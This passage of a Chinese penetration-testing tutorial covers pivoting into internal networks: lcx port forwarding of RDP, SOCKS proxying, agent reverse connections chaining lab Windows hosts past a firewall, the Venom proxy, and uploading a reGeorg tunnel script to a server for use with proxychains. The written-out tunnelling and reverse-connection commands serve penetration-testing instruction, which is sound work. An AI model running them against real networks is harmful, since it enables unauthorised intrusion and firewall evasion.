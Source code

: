 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0gRDsLjPckXqNic045GredvZygJ8dzjuibSjGgZcNLeZcoZrSGAznLtsg/640?wx_fmt=png)

命令三：端口转发

```
#端口转发。将目标3389转发到本地1189，然后mstsc连接127.0.0.1:1189。注意多级转发会造成流量拥堵，流量可能出不来
lcxtran 1189 192.168.1.10 3389
#socket代理
#配合proxychains驱动本地软件对内网进行扫描，由本地1080将流量转发到内网
socks 1080
```

### **3.3 反向连接**

`#win7保持监听``agent_Win32.exe -l 7777``#xp反向连接到win7``agent_Win32.exe -c 169.254.75.233 -p 7777``#win8保持监听``agent_Win32.exe -l 6666``#win7反向连接08``agent_Win32.exe -c 192.168.106.128 -p 6666``#此时xp、win7都已经主动上交了权限，物理机控制08就可以直接建立隧道``admin_Win32.exe -c 192.168.1.10 -p 6666``#反向连接用户穿透防火墙`

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0Lnucibib3SRBBSuKvxDqTmNUxYnDwjZeXiaeHXyu0QQRSAxYrsp52TLnA/640?wx_fmt=png)

**4.venom 工具**  

-----------------

使用 Go 开发的多级代理工具。Venom 可将多个节点进行连接，然后以节点为跳板，构建多级代理。可以使用 Venom 轻松地将网络流量代理到多层内网，并轻松地管理代理节点。venom 工具使用方法传送门：[使用 Venom 多级代理工具穿透内网](http://mp.weixin.qq.com/s?__biz=MjM5NDUxMTI2NA==&mid=2247484080&idx=1&sn=dfa1fb4c8de49768d687c873b162bde8&chksm=a687e27f91f06b699609cf8c9a52999977cc82a2f4986a034948a1b4fe710f237df3ba32e433&scene=21#wechat_redirect)

**5.reGeorg+Proxychains**

项目地址：https://github.com/sensepost/reGeorg

### **5.1 上传脚本**

上传脚本文件到服务器，访问地址出现 “Georg says, ‘All seems fine’” 表示脚本正常运行。本地测试 php 脚本不能正常运行  

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0ywGVm9LGibKswK3bibwSdMibHWWTTTZUlfauz9ZxxOvl3SBwvr2ibx8B0g/640?wx_fmt=jpeg)

### **5.2 进行转发**

```
python2 reGeorgSocksProxy.py -p 12345 -u http://192.168.1.10:8001/tunnel.aspx
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0CDPibDMxFT0GIouvp6jVmcAZYfia7jECMfQzaCicQr3OfVVrr8kJbKiaSA/640?wx_fmt=png)  

确认端口开启：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0ePYl9zvdAvNxSqm9NHf4378nEra4YsZ7QOxumibPpwXjibxJRibXTEXdg/640?wx_fmt=png)

### **5.3 修改 socket 代理端口**

```
vi /etc/proxychains.conf
#修改代理端口为12345
```
